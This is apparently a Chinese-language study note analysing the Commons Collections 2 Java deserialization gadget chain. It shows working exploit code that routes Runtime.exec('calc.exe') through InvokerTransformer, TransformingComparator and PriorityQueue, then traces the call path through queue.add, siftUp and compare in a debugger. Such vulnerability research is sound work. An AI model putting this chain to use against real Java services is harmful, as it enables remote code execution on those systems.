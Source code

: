 ```java
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class TestCC2 {

    public static void main(String[] args) throws ClassNotFoundException, IllegalAccessException, NoSuchFieldException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc.exe"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        TransformingComparator Tcomparator = new TransformingComparator(transformerChain);
        PriorityQueue queue = new PriorityQueue(1, Tcomparator);

        queue.add(1);
        queue.add(2);
        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("cc2.ser"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("cc2.ser"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }

    }
}
```
在这里就有一个很隐藏的问题，看似执行了命令，但是却没有生成`cc2.ser`反序列化文件，说明没有进入`try{}catch()`，那么执行的命令就是客户端命令，而不会发送到服务端
![image.png](./Commons Collection2 分析.assets/2023_05_19_10_37_13_1HJshPuQ.png)
在此处分析一下，为什么我们将`Tcomparator`通过构造函数写进去，生成的实例化对象queue，是不会进行进入try代码块序列化，就直接在客户端执行命令
### 分析
在queue.add处调试，在PriorityQueue这个构造函数中，这里就是我们传入的`TransformingComparator`
![image.png](./Commons Collection2 分析.assets/2023_05_19_10_37_13_tV7B3g5C.png)
继续跟进，在queue.add(2)中，调用了offer方法
![image.png](./Commons Collection2 分析.assets/2023_05_19_10_37_14_YvtNdkbz.png)
跟进offer方法，在这里需要关注siftUp方法
![image.png](./Commons Collection2 分析.assets/2023_05_19_10_37_14_Ba58kvZm.png)
在siftUp方法中，comparator不为null(是我们传入的`TransformingComparator`)，则进入if循环，调用siftUpUsingComparator 方法
![image.png](./Commons Collection2 分析.assets/2023_05_19_10_37_14_hO14ZHyU.png)
重点到comparator.compare()方法中，跟进
![image.png](./Commons Collection2 分析.assets/2023_05_19_10_37_15_cNBxEdP4.png)
就到了compare方法中，在这里调用了两次`this.transformer.transform`方法